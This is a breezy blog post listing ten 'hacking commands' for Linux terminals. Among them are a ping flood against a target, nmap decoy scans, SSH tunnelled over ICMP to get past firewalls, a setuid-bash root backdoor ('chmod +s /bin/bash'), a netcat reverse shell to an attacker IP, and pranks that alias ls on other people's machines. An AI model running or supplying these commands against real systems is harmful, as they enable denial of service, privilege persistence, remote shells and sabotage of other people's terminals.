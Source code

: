 ```yaml
---
title: "Top 10 Hacking Commands That’ll Break Firewalls and Melt Terminals"
date: 2025-06-17 14:00:00 +0000
categories: [Cybersecurity, Terminal Hacks]
tags: [hacking, linux, terminal, ethical hacking, netcat, ping, nmap, tshark, reverse shell, firewall evasion]
pin: false
image:
  path: /assets/img/top-10-hacking-commands.jpg
  alt: Terminal with firewalls and netcat running
  width: 1200
  height: 630
comments: true
permalink: /posts/top-10-hacking-commands/
---
```

# The Real “Top 10 Hacking Commands” That’ll Turn Your Terminal into a Weapon

**Yo Hackers, Script Kiddies, and Digital Nomads!**

Pull up a chair, fire up your Kali VM, and strap in — this ride is pure 🔥.

I just fell face-first into the most epic hacking cheat sheet ever dropped into the terminalverse. We're talking **packet floods**, **ICMP tunneling sorcery**, **backdoor persistence spells**, and **Nmap command-line acrobatics** that’d make even the grumpiest sysadmin weep.

So what are we dealing with? It’s called:

> “Here Are the Top 10 Hacking Commands You Need to Know”
> 
> 
> (*A.K.A. “How to Summon Chaos with a Keyboard”*)
> 

---

### ☕ Powered by Coffee, Fueled by Curiosity

This isn’t your dad’s "how to ping Google" tutorial. This is **real**.

We’ve got **ping commands on steroids**, **subdomain enumeration madness**, **packet captures that make WireShark cry**, and even **a train** (yes, a literal ASCII train) that hijacks your terminal.

Let’s break down the tastiest nuggets of hacker goodness.

---

### 🔥 Top 10 Insane Highlights:

### 1. **Ping Goes Nuclear**

Forget 64 bytes — let’s **flood hosts** like it’s a biblical event.

```bash
ping -s 1300 -f <target>
```

Pair this with `iftop` and **watch the chaos unfold in real-time**. It’s like watching a traffic jam... that you caused. On purpose.

### 2. **Tunnel SSH Over ICMP – WHAT?!**

TCP over ICMP? That’s like shoving a 4x4 through a straw. But yeah…

```bash
ptunnel
```

Run it, then SSH over echo requests. Firewalls? What firewalls?

### 3. **Nmap With Decoys – Become a Ghost**

Hide in plain sight by scanning with random decoys:

```bash
nmap -D RND:10 <target>
```

Now they don’t know who hit them. Could be you. Could be Aunt Becky.

### 4. **Run Bash As Root Anytime**

John Hammond dropped a root-level nuke:

```bash
sudo chmod +s /bin/bash
```

Now you can do:

```bash
/bin/bash -p
```

Congrats, you’re root. You’re the captain now.

### 5. **ASCII Steam Train (Yes, Really)**

Mistype `ls` as `sl` and… choo choo, your terminal’s hijacked.

```bash
sl
```

Bonus troll: alias `ls='sl'` and make your ops team question life.

### 6. **Wireshark’s Evil Cousin: tshark**

CLI packet-fu so powerful you’ll salivate:

```bash
tshark -i eth0 -Y "http.request.method == \"GET\""
```

Sniff only GETs. Like HTTP Tinder.

### 7. **Netcat: King of Reverse Shells**

Want shell access from a remote box? Netcat. Always Netcat.

```bash
attacker: nc -lvp 1337
target: nc -e /bin/sh <attacker-ip> 1337
```

Boom. Shell delivered, piping hot.

### 8. **Proxy Yourself to Japan via SSH**

Why be tracked when you can *vanish*?

```bash
ssh -D 1337 -C -q -N user@remote
```

Then set your browser proxy to SOCKS5 on port 1337.

Suddenly, you’re in Osaka eating ramen… virtually.

### 9. **Enumerate Subdomains Like a Pro**

Use `GoBuster`, `Sublist3r`, or `amass`.

Not only do they sound cool — they *are* cool.

Find everything they thought was hidden.

### 10. **Set a Terminal Trap with /dev/urandom**

Alias `ls` to:

```bash
cat /dev/urandom
```

Boom. Terminal chaos. Admin rage. You win.

---

### 🤯 Bonus: The Reverse Chat Server in Netcat

Ever texted someone via Netcat? Now you can.

It's like AOL chat... in 1994... but worse. And cooler.

### 💾 Forensic Ninja Mode

Use `tcpdump`, `tshark`, and `tshark`’s crazy filtering:

```bash
tshark -r capture.pcap -qz endpoints,ip
```

See *every* endpoint connection. Follow streams.

You’re the Matrix now.

---

### 💬 Final Words

If your bash history ain’t lookin’ like a warzone by now… did you even hack, bro?

So grab this cheat sheet, spin up your VM, sip some coffee (or yerba mate if you're *that* guy), and **go make some noise on the wire**. Because at the end of the day:

> "If your terminal isn't screaming, you're not doing it right."
> 

Catch you on the dark net,

👾 — /root